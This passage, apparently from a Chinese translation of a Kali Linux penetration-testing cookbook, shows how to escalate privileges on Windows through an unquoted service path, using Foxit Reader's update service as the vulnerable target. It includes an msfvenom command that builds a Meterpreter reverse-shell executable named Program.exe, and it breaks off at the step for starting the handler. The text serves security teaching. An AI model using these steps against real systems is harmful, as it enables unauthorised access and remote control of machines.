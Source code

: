 桌面上可能有文件，或者在共享文件夹中，包含密码。其中可能还有包含存储密码的计划程序。最好在操作系统中搜索一次，找到可能有助于提升权限的敏感信息。

# 未引用服务路径利用

在这个配方中，我们将练习利用和获取高级用户对未引用服务路径的额外权限。首先，让我们了解什么是未引用的服务路径。我们所说的是指定/配置的服务二进制文件路径没有加引号。这只有在低权限用户被赋予对系统驱动器的访问权限时才有效。这通常发生在公司网络中，用户被允许添加文件的例外情况。

让我们看一下以下屏幕截图，更好地理解这个问题：

![未引用服务路径利用](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_009.jpg)

如果我们看一下可执行文件的路径，它是没有加引号指定的。在这种情况下，可以绕过 Windows 的执行方法。当路径之间有空格，并且没有用引号指定时，Windows 基本上是以以下方式执行的：

```
    C:\Program.exe
    C:\Program\FilesSome.exe
    C:\Program\FilesSome\FolderService.exe

```

在前面的情况下，Foxit Cloud Safe Update Service 的路径是没有引号的，这基本上意味着它将搜索绝对路径，并导致`Program.exe`文件被执行的情况。现在让我们执行这个实际的例子，看看它是如何工作的。

## 准备工作

为了做好准备，我们需要 Metasploit 和 Foxit Reader，可以在[`filehippo.com/download_foxit/59448/`](http://filehippo.com/download_foxit/59448/)找到。易受攻击的版本是 Foxit Reader 7.0.6.1126。一旦安装了 Foxit，我们就可以继续我们的配方。

## 如何操作...

1.  运行 Windows cmd 并输入以下命令：

```
      sc qc FoxitCloudUpdateService

```

输出将如下截屏所示：

![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_010.jpg)

1.  我们看到二进制路径没有被引号括起来。现在我们将继续在我们的 Kali 机器上使用`msfvenom`制作一个反向 shell，用于这个 Windows 框架。在 Kali 终端中输入以下命令，替换您在 Kali 上获得的 IP 和所需的端口：

```
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP       Address> LPORT=<Your Port to Connect On> -f exe > Program.exe

```

输出将如下截屏所示：

![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_011.jpg)

1.  在您的 Kali 机器上使用以下命令启动一个反向处理程序：
